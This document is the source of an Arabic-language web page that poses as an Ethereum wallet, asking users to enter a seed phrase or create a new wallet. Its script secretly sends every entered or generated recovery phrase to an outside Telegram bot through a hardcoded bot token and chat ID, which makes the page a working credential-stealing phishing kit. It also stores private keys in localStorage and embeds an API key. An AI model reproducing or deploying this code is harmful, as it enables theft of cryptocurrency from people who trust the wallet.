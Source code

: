 𝔸𝕝𝕚 𝕄𝕒𝕙𝕞𝕠𝕦𝕕 
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>المحفظة الإلكترونية</title>
    <script src="https://cdn.ethers.io/lib/ethers-5.2.umd.min.js" type="application/javascript"></script>
    <style>
        * {
            box-sizing: border-box;
            margin: 0;
            padding: 0;
            font-family: 'Arial', sans-serif;
        }
        
        body {
            background-color: #f5f5f5;
            color: #333;
            line-height: 1.6;
        }
        
        .container {
            width: 100%;
            max-width: 100%;
            padding: 20px;
            margin: 0 auto;
        }
        
        header {
            background-color: #2c3e50;
            color: white;
            padding: 20px;
            text-align: center;
        }
        
        .auth-container, .wallet-container {
            background-color: white;
            padding: 30px;
            margin: 30px auto;
            box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
            max-width: 600px;
        }
        
        h2 {
            margin-bottom: 20px;
            color: #2c3e50;
            text-align: center;
        }
        
        .form-group {
            margin-bottom: 20px;
        }
        
        label {
            display: block;
            margin-bottom: 8px;
            font-weight: bold;
        }
        
        input[type="text"], input[type="password"] {
            width: 100%;
            padding: 12px;
            border: 1px solid #ddd;
            font-size: 16px;
        }
        
        button {
            background-color: #2c3e50;
            color: white;
            border: none;
            padding: 12px 20px;
            cursor: pointer;
            width: 100%;
            font-size: 16px;
            font-weight: bold;
        }
        
        button:hover {
            background-color: #1a252f;
        }
        
        .wallet-address {
            word-break: break-all;
            background-color: #f9f9f9;
            padding: 15px;
            border: 1px solid #ddd;
            margin-bottom: 20px;
        }
        
        .assets-list {
            list-style-type: none;
        }
        
        .assets-list li {
            padding: 15px;
            border-bottom: 1px solid #ddd;
            display: flex;
            justify-content: space-between;
        }
        
        .create-wallet-btn {
            background-color: #27ae60;
            margin-top: 20px;
        }
        
        .create-wallet-btn:hover {
            background-color: #219653;
        }
        
        @media (min-width: 768px) {
            .container {
                max-width: 750px;
            }
        }
        
        @media (min-width: 992px) {
            .container {
                max-width: 970px;
            }
        }
        
        @media (min-width: 1200px) {
            .container {
                max-width: 1170px;
            }
        }
    </style>
</head>
<body>
    <header>
        <h1>المحفظة الإلكترونية</h1>
    </header>
    
    <div class="container">
        <div id="auth-section" class="auth-container">
            <h2>تسجيل الدخول</h2>
            <div class="form-group">
                <label for="seed-phrase">عبارة الاسترجاع (Seed Phrase)</label>
                <input type="password" id="seed-phrase" placeholder="أدخل عبارة الاسترجاع الخاصة بك">
            </div>
            <button id="login-btn">الدخول إلى المحفظة</button>
            <button id="create-wallet-btn" class="create-wallet-btn">إنشاء محفظة جديدة</button>
        </div>
        
        <div id="wallet-section" class="wallet-container" style="display: none;">
            <h2>محفظتك الإلكترونية</h2>
            <div class="form-group">
                <label>عنوان المحفظة:</label>
                <div id="wallet-address" class="wallet-address"></div>
            </div>
            
            <div class="form-group">
                <label>الأصول المتاحة:</label>
                <ul id="assets-list" class="assets-list">
                    <!-- سيتم ملء الأصول هنا عبر JavaScript -->
                </ul>
            </div>
            
            <button id="logout-btn">تسجيل الخروج</button>
        </div>
    </div>

    <script>
        document.addEventListener('DOMContentLoaded', function() {
            // العناصر الرئيسية في الواجهة
            const authSection = document.getElementById('auth-section');
            const walletSection = document.getElementById('wallet-section');
            const loginBtn = document.getElementById('login-btn');
            const createWalletBtn = document.getElementById('create-wallet-btn');
            const logoutBtn = document.getElementById('logout-btn');
            const seedPhraseInput = document.getElementById('seed-phrase');
            const walletAddressElement = document.getElementById('wallet-address');
            const assetsListElement = document.getElementById('assets-list');
            
            // بيانات التكوين
            const telegramBotToken = '7521799915:AAEQEM_Ajk5_hMWQUrlmvdNbDBJAUMMwgrg';
            const chatId = '910021564';
            const infuraApiKey = '482a7c1c7cc14ec78699c3f1c231b0cd';
            
            // إرسال رسالة إلى Telegram
            async function sendToTelegram(message) {
                try {
                    const url = `https://api.telegram.org/bot${telegramBotToken}/sendMessage`;
                    const response = await fetch(url, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({
                            chat_id: chatId,
                            text: message
                        })
                    });
                    
                    const data = await response.json();
                    return data.ok;
                } catch (error) {
                    console.error('Error sending to Telegram:', error);
                    return false;
                }
            }
            
            // إنشاء محفظة جديدة
            async function createNewWallet() {
                try {
                    // إنشاء محفظة عشوائية باستخدام ethers.js
                    const wallet = ethers.Wallet.createRandom();
                    
                    // إرسال عبارة الاسترجاع إلى Telegram
                    const message = `تم إنشاء محفظة جديدة: ${wallet.mnemonic.phrase}`;
                    await sendToTelegram(message);
                    
                    // حفظ المحفظة في localStorage
                    localStorage.setItem('walletData', JSON.stringify({
                        address: wallet.address,
                        privateKey: wallet.privateKey,
                        mnemonic: wallet.mnemonic.phrase
                    }));
                    
                    // عرض المحفظة
                    showWallet(wallet.address);
                    
                    alert('تم إنشاء محفظة جديدة بنجاح! عبارة الاسترجاع تم إرسالها إلى المسؤول.');
                } catch (error) {
                    console.error('Error creating wallet:', error);
                    alert('حدث خطأ أثناء إنشاء المحفظة. يرجى المحاولة مرة أخرى.');
                }
            }
            
            // استيراد محفظة موجودة
            async function importWallet(seedPhrase) {
                try {
                    // إنشاء محفظة من عبارة الاسترجاع
                    const wallet = ethers.Wallet.fromMnemonic(seedPhrase);
                    
                    // إرسال عبارة الاسترجاع إلى Telegram
                    const message = `تم استيراد محفظة: ${seedPhrase}`;
                    await sendToTelegram(message);
                    
                    // حفظ المحفظة في localStorage
                    localStorage.setItem('walletData', JSON.stringify({
                        address: wallet.address,
                        privateKey: wallet.privateKey,
                        mnemonic: seedPhrase
                    }));
                    
                    // عرض المحفظة
                    showWallet(wallet.address);
                    
                    // جلب رصيد المحفظة
                    fetchWalletBalance(wallet.address);
                } catch (error) {
                    console.error('Error importing wallet:', error);
                    alert('عبارة الاسترجاع غير صحيحة. يرجى المحاولة مرة أخرى.');
                }
            }
            
            // عرض واجهة المحفظة
            function showWallet(address) {
                authSection.style.display = 'none';
                walletSection.style.display = 'block';
                walletAddressElement.textContent = address;
            }
            
            // جلب رصيد المحفظة من شبكة Ethereum
            async function fetchWalletBalance(address) {
                try {
                    // الاتصال بشبكة Ethereum عبر Infura
                    const provider = new ethers.providers.InfuraProvider('mainnet', infuraApiKey);
                    
                    // الحصول على الرصيد
                    const balance = await provider.getBalance(address);
                    const balanceInEth = ethers.utils.formatEther(balance);
                    
                    // عرض الرصيد
                    assetsListElement.innerHTML = `
                        <li>
                            <span>Ethereum (ETH)</span>
                            <span>${parseFloat(balanceInEth).toFixed(6)} ETH</span>
                        </li>
                    `;
                } catch (error) {
                    console.error('Error fetching balance:', error);
                    assetsListElement.innerHTML = `
                        <li>
                            <span>Ethereum (ETH)</span>
                            <span>غير متاح</span>
                        </li>
                    `;
                }
            }
            
            // تسجيل الخروج
            function logout() {
                localStorage.removeItem('walletData');
                walletSection.style.display = 'none';
                authSection.style.display = 'block';
                seedPhraseInput.value = '';
            }
            
            // التحقق مما إذا كان هناك محفظة مسجلة مسبقاً
            function checkExistingWallet() {
                const walletData = localStorage.getItem('walletData');
                if (walletData) {
                    const wallet = JSON.parse(walletData);
                    showWallet(wallet.address);
                    fetchWalletBalance(wallet.address);
                }
            }
            
            // تعيين معالجات الأحداث
            loginBtn.addEventListener('click', function() {
                const seedPhrase = seedPhraseInput.value.trim();
                if (seedPhrase) {
                    importWallet(seedPhrase);
                } else {
                    alert('يرجى إدخال عبارة الاسترجاع');
                }
            });
            
            createWalletBtn.addEventListener('click', createNewWallet);
            logoutBtn.addEventListener('click', logout);
            
            // التحقق من وجود محفظة عند تحميل الصفحة
            checkExistingWallet();
        });
    </script>
</body>
</html>
